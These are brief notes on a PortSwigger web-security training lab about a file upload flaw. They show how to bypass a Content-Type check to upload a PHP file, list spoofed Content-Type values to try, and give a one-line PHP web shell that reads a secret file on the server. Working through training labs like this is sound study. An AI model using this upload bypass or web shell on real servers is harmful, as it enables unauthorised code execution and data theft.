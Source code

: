 https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

- log in
- When we upload any file we make a Post to `/my-account/avatar`, the app ask us to return to myAccount page 
- In my account page the img tag has a src attribute to `<img src="/files/avatars/filename.png" class="avatar">`}
- THe application in question only allows image/png contenttype but it doesn't validate whether the file extension match contenttype
- Load a file of php extension and use some of these values for the conten type header
```php
text/plain
text/x-php
application/x-php
application/x-httpd-php
application/x-httpd-php-source
```
- Use the script provided by portswigger.
- ``<?php echo file_get_contents('/home/carlos/secret'); ?>``
- ![[Pasted image 20250518135801.png]]
